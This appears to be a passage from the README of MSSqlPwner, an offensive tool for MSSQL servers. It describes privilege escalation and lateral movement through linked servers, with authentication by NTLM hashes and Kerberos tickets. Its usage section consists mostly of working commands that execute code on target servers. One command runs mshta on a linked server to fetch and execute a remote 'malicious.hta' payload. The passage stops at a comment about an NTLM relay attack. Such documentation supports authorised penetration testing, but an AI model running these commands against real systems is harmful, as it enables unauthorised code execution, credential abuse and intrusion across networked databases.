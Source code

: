 ## General optional arguments (Should be BEFORE the chosen function):
- `-link-name` - The link server name to use
- `-chain-id` - The chain ID to use
- `-max-link-depth` - The maximum link depth to use (Default: 10)
- `-max-impersonation-depth` - The maximum impersonation depth to use (Default: 10)
- `-auto-yes` - Automatically answer yes to all questions (Default: False)
- `-timeout` - The timeout to use (Default: 30)


## Lateral Movement and Chain Exploration:
MSSqlPwner provides opportunities for lateral movement assessments and exploration of linked servers. 
In scenarios where the current session lacks administrative privileges, the tool attempts to find a chain that escalates its own privileges via linked servers. 
If a session on a linked server has higher privileges, the tool can interact with the linked server and perform a linked query back to the host with elevated privileges, enabling lateral movement with the target server.

## Authentication Methods:
Supported by multiple authentication methods, including:
- Windows credentials
- MSSQL credentials
- Kerberos authentication
- Kerberos tickets
- NTLM Hashes

The tool adapts to various scenarios and environments, verifying the effectiveness of authentication mechanisms.

Take your MSSQL environment assessments to the next level with the power and versatility of MSSqlPwner. 
Discover new possibilities for lateral movement, stealthy querying, and precise security evaluations with this the MSSqlPwner tool.


## Usage

```shell
# Interactive mode
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth interactive

# Interactive mode with 2 depth level of impersonations
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth  -max-impersonation-depth 2 interactive


# Executing custom assembly on the current server with windows authentication and executing hostname command 
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth custom-asm hostname

# Executing custom assembly on the current server with windows authentication and executing hostname command on the SRV01 linked server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 custom-asm hostname

# Executing the hostname command using stored procedures on the linked SRV01 server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 exec hostname

# Executing the hostname command using stored procedures on the linked SRV01 server with sp_oacreate method
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 exec "cmd /c mshta http://192.168.45.250/malicious.hta" -command-execution-method sp_oacreate

# Issuing NTLM relay attack on the SRV01 server
```